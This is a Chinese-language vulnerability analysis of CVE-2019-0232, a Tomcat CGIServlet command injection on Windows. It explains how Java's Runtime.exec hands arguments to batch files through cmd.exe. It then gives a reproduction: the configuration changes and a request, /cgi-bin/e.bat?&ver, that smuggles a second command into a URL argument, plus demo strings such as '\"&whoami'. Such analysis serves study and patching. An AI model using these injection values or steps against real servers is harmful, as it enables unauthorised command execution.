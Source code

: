 ```yaml
---
title: "（CVE-2019-0232）Tomcat rce"
id: zhfly3202
---
```


# （CVE-2019-0232）Tomcat rce

## 一、漏洞简介

该漏洞是由于Tomcat CGI将命令行参数传递给Windows程序的方式存在错误，使得CGIServlet被命令注入影响。

该漏洞只影响Windows平台，要求启用了CGIServlet和enableCmdLineArguments参数。但是CGIServlet和enableCmdLineArguments参数默认情况下都不启用。

## 二、漏洞影响

Apache Tomcat 9.0.0.M1 to 9.0.17

Apache Tomcat 8.5.0 to 8.5.39

Apache Tomcat 7.0.0 to 7.0.93

## 三、复现过程

### 漏洞分析

漏洞相关的代码在 `tomcat\java\org\apache\catalina\servlets\CGIServlet.java` 中，CGIServlet提供了一个cgi的调用接口，在启用 `enableCmdLineArguments` 参数时，会根据RFC 3875来从Url参数中生成命令行参数，并把参数传递至Java的 `Runtime` 执行。 这个漏洞是因为 `Runtime.getRuntime().exec` 在Windows中和Linux中底层实现不同导致的。下面以一个简单的case来说明这个问题，在Windows下创建arg.bat：

```
rem arg.bat
echo %* 
```

并执行如下的Java代码

```
String [] cmd={"arg.bat", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

在Windows下会输出 `arg` 和 `dir` 命令运行后的结果。同样的，用类似的脚本在Linux环境下测试：

```
# arg.sh
for key in "$@"
do
    echo '$@' $key
done
String [] cmd={"arg.sh", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

此时的输出为

```
$@ arg
$@ &
$@ dir 
```

导致这种输出的原因是在JDK的实现中 `Runtime.getRuntime().exec` 实际调用了 `ProcessBuilder` ，而后 `ProcessBuilder` 调用 `ProcessImpl`使用系统调用 `vfork` ，把所有参数直接传递至 `execve`。

用 `strace -F -e vfork,execve java Main` 跟踪可以看到上面的Java代码在Linux中调用为

```
execve("arg.sh", ["arg.sh", "arg", "&", "dir"], [/* 23 vars */]) 
```

而如果跟踪类似的PHP代码 `system('a.sh arg & dir');` ，得到的结果为

```
execve("/bin/sh",  ["sh", "-c", "a.sh arg & dir"], [/* 23 vars */]) 
```

所以Java的 `Runtime.getRuntime().exec` 在CGI调用这种情况下很难有命令注入。而Windows中创建进程使用的是 `CreateProcess` ，会将参数合并成字符串，作为 `lpComandLine` 传入 `CreateProcess` 。程序启动后调用 `GetCommandLine` 获取参数，并调用 `CommandLineToArgvW` 传至 argv。在Windows中，当 `CreateProcess` 中的参数为 bat 文件或是 cmd 文件时，会调用 `cmd.exe` , 故最后会变成 `cmd.exe /c "arg.bat & dir"`，而Java的调用过程并没有做任何的转义，所以在Windows下会存在漏洞。

除此之外，Windows在处理参数方面还有一个特性，如果这里只加上简单的转义还是可能被绕过， 例如 `dir "\"&whoami"` 在Linux中是安全的，而在Windows会执行命令。

这是因为Windows在处理命令行参数时，会将 `"` 中的内容拷贝为下一个参数，直到命令行结束或者遇到下一个 `"` ，但是对 `\"` 的处理有误。同样用 `arg.bat` 做测试，可以发现这里只输出了 `\` 。因此在Java中调用批处理或者cmd文件时，需要做合适的参数检查才能避免漏洞出现。

### 漏洞复现

笔者使用的复现环境为9.0.12 + JRE 1.8.0。

首先进行CGI相关的配置，在 `conf/web.xml` 中启用CGIServlet：

```
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet> 
```

这里主要的设置是 `enableCmdLineArguments` 和 `executable` 两个选项。 `enableCmdLineArguments` 启用后才会将Url中的参数传递到命令行， `executable` 指定了执行的二进制文件，默认是 `perl`，需要置为空才会执行文件本身。

同样在 `conf/web.xml` 中启用cgi的servlet-mapping

```
<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping> 
```

之后修改 `conf/context.xml` 的 `` 添加 `privileged="true"`属性，否则会没有权限

```
<Context privileged="true">

```
&lt;WatchedResource&gt;WEB-INF/web.xml&lt;/WatchedResource&gt;
&lt;WatchedResource&gt;WEB-INF/tomcat-web.xml&lt;/WatchedResource&gt;
&lt;WatchedResource&gt;${catalina.base}/conf/web.xml&lt;/WatchedResource&gt; 
``` `</Context>` 
```

然后在 `ROOT\WEB-INF` 下创建 `cgi-bin` 目录, 并在该目录下创建一个内容为 `echo Content-type: text/html` 的 `e.bat` 文件。

配置完成后，启动tomcat，访问 `http://0-sec.org:8080/cgi-bin/e.bat?&ver` ，可以看到命令执行成功。

## 参考链接

> https://xz.aliyun.com/t/4875